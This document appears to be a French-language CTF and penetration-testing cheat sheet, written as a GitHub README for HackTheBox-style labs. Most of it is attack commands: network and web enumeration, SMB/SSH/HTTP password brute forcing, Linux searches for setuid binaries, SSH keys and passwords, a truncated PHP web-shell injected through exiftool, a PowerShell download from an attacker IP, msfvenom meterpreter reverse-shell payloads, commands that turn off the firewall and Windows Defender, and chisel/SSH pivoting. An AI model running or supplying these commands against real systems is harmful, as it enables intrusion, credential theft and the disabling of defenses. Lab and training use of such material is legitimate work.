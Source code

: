 # CTF-Cheat-Sheet


__Reverse shell__ :
https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md

__Scripts d’énumération automatique pour privesc__ :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh  

__Enumération__
```bash
nmap (
-A : détection du système et des versions
-sP : simple ping scan
-sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
-sN/sF/sX: Scans TCP Null, FIN et Xmas
-sU: Scan UDP
-T4 : Définit une temporisation[0-5]
)
nmap -A -T4 -sV 10.10.10.157

nmap --script "SCRIPT" -p "PORT" "IPADDRESS"
nmap –script smb-vuln* -p 139,445 10.10.10.134
```
__WEB__
```bash
nikto -h "URL" -p "PORTS"
nikto -h 192.168.0.1 -p 80,443

gobuster --url "IP ADDRESS" dir --wordlist "WORDLIST" -x "EXTENSION"
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL
```
```bash
smbclient --list //"IPADDRESS"/ -U ""
```
__Enumération des répertoires partagés accessibles en anonymous__
```bash
rpcclient -U "" -N 10.10.10.180/
```
__Bruteforcer les RID des comptes Windows__
```bash
crackmapexec smb DC.ustoun.local -u 'SVC-Kerb' -p /root/rockyou.txt
```
__Bruteforce SMB avec crackmapexec__
```bash
enum4linux -a 10.10.10.180
```
__Enumération SMB, RPC & co (WINDOWS)__
```bash

dirb "url" "wordlist"
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
-a "agent" -> spécifie un user-agent
-R -> récursivité interactive
-o output.txt -> redirige l'output
wfuzz --hh="PARAM_SIZE" -w "WORDLIST" "URL".php?"PARAM_NAME"=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
```

__Exploitation & Elévation de privilèges [LINUX] :__
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
```
__Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet__
```bash
searchsploit -t "INTITLE" "KEYWORDS" -w
searchsploit windows local smb

sudo -l
```
__-> liste les commandes autorisées pour l’utilisateur courant__
```bash
find / -type d -writable 2> /dev/null
__-> Liste les répertoires accessibles en écriture__
```bash
find /* -user root -perm -4000 -print 2>/dev/null
__-> Liste les binaires exécutables par l’utilisateur courant__
```bash
find / -type f -perm /6000 -ls 2>/dev/null
__-> Liste les fichiers setuid/setgid sur le système__
```bash
find / -iname "mon_fichier" -print 2>/dev/null
__-> Trouver un fichier précis sur le système__
```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
__-> Trouver des clés RSA ou des autorisations de connexion SSH__
```bash
grep -iR "passw"
__-> Rechercher du texte dans des fichiers d’une arborescence__
```bash
binwalk socute.jpg
__-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)__
```bash
exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>' "IMAGE"
exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png


__Exploitation & Elévation de privilèges [WINDOWS] :__
```bash
gem install evil-winrm
evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'
```
__Se connecter via le port winrm__

https://github.com/itm4n/PrivescCheck
```bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```
__Tester les privilèges de l’utilisateur__
```bash
whoami /priv
whoami /groups
```
__Liste des privilèges : https://github.com/gtworek/Priv2Admin__
__Lister les privilèges de l’utilisateur courant__
```bash
Get-Services
```
__Lister les services (Pour vérifier les unquoted services)__
```bash
Set-ExecutionPolicy Unrestricted
```
__Retirer les restrictions d’exécution de scripts__
```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\toto\Desktop\wget.exe')"
```
__Télécharger un fichier depuis un serveur web__
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost="LOCALIP" lport="LOCALPORT" -f "FORMAT" > "OUTPUTFILE"
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py -d 2014-06-06-mssb.xlsx -i systeminfo.txt
```
__Vérifier les exploits disponibles en fonction du systeminfo de la victime__
```bash
https://github.com/PowerShellMafia/PowerSploit
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
```
__Lancer un PowerShell sans restrictions, charger PowerUp et lancer le check complet__
```bash
powershell -c "Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0"
powershell -c "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'"
powershell -c "Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False"
netsh advfirewall set allprofiles state off
```
__Activer le RDP et désactiver le firewall__
```bash
Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableRealtimeMonitoring $true
```
__Désactiver Windows Defender en Powershell__


__Pivoting :__
__Sous Windows :__
KALI  WINDOWS1   WINDOWS2
10.10.14.33  172.16.1.1  172.16.2.1
__Ici Kali peut joindre WINDOWS1 mais pas WINDOWS2__
__Seul WINDOWS1 peut joindre WINDOWS2__

__sur le serveur (kali) :__
./chisel server --port 9000 --host 0.0.0.0 --reverse

__sur le client (WINDOWS1 172.16.1.1) :__
.\chisel.exe client 10.10.14.33:9000 R:1081:socks
__On monte un tunnel chisel et on affecte un socket sur un port du serveur Kali__

nano /etc/proxychains.conf
 socks5 127.0.0.1 1081
proxychains -q curl http://172.16.2.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre WINDOWS2__

__Sous Linux :__
KALI  LINUX1  LINUX2
10.10.14.33  10.10.10.1  10.10.12.1
__Ici Kali peut joindre LINUX1 mais pas LINUX2__
__Seul LINUXS1 peut joindre LINUX2__

Sur le serveur Kali :
ssh -ND 127.0.0.1:12000 root@10.10.10.1 -i id_rsa -v
__On monte une connexion ssh depuis Kali sur LINUX1 avec un socket sur le port 12000__

nano /etc/proxychains.conf
 socks5 127.0.0.1 12000
proxychains -q curl http://10.10.12.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre LINUX2__


__Injection SQL :__
sqlmap -u "URL" (--dbs / --tables -D "DATABASE" / --columns -D "DATABASE" -T "TABLENAME")
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES


__Bruteforce :__
__Cracker un hash SHA 512 avec un salage__
__Mettre dans un fichier le hash et la chaine de salage séparés par un caractère "$" puis :__
john sha512.hash -format='dynamic=sha512($p.$s)' --wordlist=rockyou.txt

__Cracker un zip chiffré avec une liste de mots de passe__
fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt secret.zip

crunch "MIN" "MAX" "CONTENT"
crunch 4 15 « abcdefghijklmnopqrstuvwxyz »

crackmapexec ssh 192.168.193.132 -u users.txt -p rockyou.txt
__tester une liste d’utilisateur avec une liste de mot de passe (SSH, SMB, WINRM)__

hydra -l "USER" -P "WORDLIST" "IP ADDRESS" "METHOD" "URL"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l "LOGIN" -P "WORDLIST" "URL" "METHOD""PAGE":"ARGUMENT"=^"VALUE"^:"INCORRECT STRING"" -w "THREADS" -s "PORT"
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form « /index.php:password=^PASS^:Invalid password » -w 10 -s 45692

john --incremental "HASHFILE"
__Pour bruteforcer de façon incrémentale__

john "HASHFILE" --wordlist=/usr/share/wordlists/rockyou.txt
__Pour bruteforcer avec un dictionnaire__

__Script de bruteforce anti-CSRF :__
https://github.com/J3wker/anti-CSRF_Token-Bruteforce



